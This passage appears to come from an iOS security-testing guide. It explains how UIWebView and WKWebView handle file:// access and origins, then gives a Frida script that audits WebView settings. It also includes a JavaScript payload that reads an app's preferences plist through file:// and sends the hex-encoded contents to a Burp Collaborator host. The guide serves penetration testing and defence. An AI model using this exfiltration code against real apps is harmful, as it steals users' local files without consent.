 * **UIWebView:**&#x20;
  * The `file://` scheme is always enabled.
  * File access from `file://` URLs is always enabled.
  * Universal access from `file://` URLs is always enabled.
  * If you retrieve the effective origin from a `UIWebView` where `baseURL` is also set to `nil` you will see that it is **not set to "null"**, instead you'll obtain something similar to the following: `applewebdata://5361016c-f4a0-4305-816b-65411fc1d78`0. This origin "applewebdata://" is similar to the "file://" origin as it **does not implement Same-Origin Policy** and allow access to local files and any web resources.

{% tabs %}
{% tab title="exfiltrate_file" %}
```javascript
String.prototype.hexEncode = function(){
    var hex, i;
    var result = "";
    for (i=0; i<this.length; i++) {
        hex = this.charCodeAt(i).toString(16);
        result += ("000"+hex).slice(-4);
    }
    return result
}

var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        var xhr2 = new XMLHttpRequest();
        xhr2.open('GET', 'http://187e2gd0zxunzmb5vlowsz4j1a70vp.burpcollaborator.net/'+xhr.responseText.hexEncode(), true);
        xhr2.send(null);
    }
}
xhr.open('GET', 'file:///var/mobile/Containers/Data/Application/ED4E0AD8-F7F7-4078-93CC-C350465048A5/Library/Preferences/com.authenticationfailure.WheresMyBrowser.plist', true);
xhr.send(null);
```
{% endtab %}
{% endtabs %}

* **WKWebView**:
  * **`allowFileAccessFromFileURLs`** (`WKPreferences`, `false` by default): it enables JavaScript running in the context of a `file://` scheme URL to access content from other `file://` scheme URLs.
  * **`allowUniversalAccessFromFileURLs`** (`WKWebViewConfiguration`, `false` by default): it enables JavaScript running in the context of a `file://` scheme URL to access content from any origin.

You can search for those functions in the source code of the application or in the compiled binary.\
Also, you can use the following frida script to find this information:

```bash
ObjC.choose(ObjC.classes['WKWebView'], {
  onMatch: function (wk) {
    console.log('onMatch: ', wk);
    console.log('URL: ', wk.URL().toString());
    console.log('javaScriptEnabled: ', wk.configuration().preferences().javaScriptEnabled());
    console.log('allowFileAccessFromFileURLs: ',
            wk.configuration().preferences().valueForKey_('allowFileAccessFromFileURLs').toString());
    console.log('hasOnlySecureContent: ', wk.hasOnlySecureContent().toString());
    console.log('allowUniversalAccessFromFileURLs: ',
            wk.configuration().valueForKey_('allowUniversalAccessFromFileURLs').toString());
  },
  onComplete: function () {
    console.log('done for WKWebView!');
  }
});
```